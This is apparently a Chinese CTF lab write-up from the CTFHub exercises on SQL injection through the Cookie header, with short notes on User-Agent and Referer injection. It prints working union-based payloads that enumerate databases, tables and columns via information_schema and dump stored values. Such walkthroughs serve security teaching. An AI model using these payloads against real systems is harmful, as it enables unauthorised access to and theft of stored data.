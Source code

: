此处的注入点为Cookie字段了，原理是后台在接收Cookie字段时没有对Cookie做过滤。正常情况下，我们在进行渗透测试的时候，Cookie字段也可用作一个注入点。

### CTFHub(Cookie注入)

1、这次打开链接发现输入的参数在cookie中了，遂借助EditThisCookie工具修改cookie值提交请求。

![image-20210723151526642](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723151526.png)

2、使用`order by`与`union`确定字段值与回显字段后，构造语句：

```mysql
-1 union select 1,database()
```

得到当前数据库名，如图：

![image-20210723151901323](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723151901.png)

3、根据库名枚举表名，构造语句为：

```mysql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
```

成功得到表，如图：

![image-20210723152107252](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723152107.png)

4、根据表名枚举字段名，语句为：

```mysql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='wtosponpou'
```

成功得到字段名：

![image-20210723152216378](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723152216.png)

5、根据字段名枚举字段值，相关语句为：

```mysql
-1 union select 1,group_concat(gmbwiemzxe) from sqli.wtosponpou
```

成功得到flag：

![image-20210723152351790](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723152351.png)

## SQL UA注入

注入点变成了浏览器的User-Agent，原理是后台在接收UA时没有对UA做过滤。

*注入利用方法同SQL Cookie注入，此处不在概述。*

## SQL Refer注入

注入点变成了Refer字段，注入原理是后台在接收Refer时没有对Refer做过滤。
